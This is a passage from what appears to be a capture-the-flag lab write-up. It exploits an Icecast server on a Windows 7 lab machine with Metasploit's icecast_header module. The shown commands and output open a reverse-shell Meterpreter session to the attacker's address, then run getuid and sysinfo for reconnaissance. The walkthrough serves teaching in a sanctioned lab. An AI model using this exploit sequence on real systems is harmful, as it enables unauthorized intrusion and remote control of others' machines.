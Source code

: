 `RHOSTS`

###  First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit` 
```
msf6 exploit(windows/http/icecast_header) > set RHOSTS  10.10.82.95 
RHOSTS => 10.10.82.95
```
```
msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.2.60.96:4444 
[*] Sending stage (175174 bytes) to 10.10.82.95
[*] Meterpreter session 1 opened (10.2.60.96:4444 -> 10.10.82.95:49258) at 2021-02-01 00:02:31 -0500

meterpreter > 
```


---

## 4. Escalate

### Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
First of all, `:stonks:` XD
`meterpreter`

###  What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room. 
```
meterpreter > getuid
Server username: Dark-PC\Dark
```
`Dark`

### What build of Windows is the system?
```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
`7601`
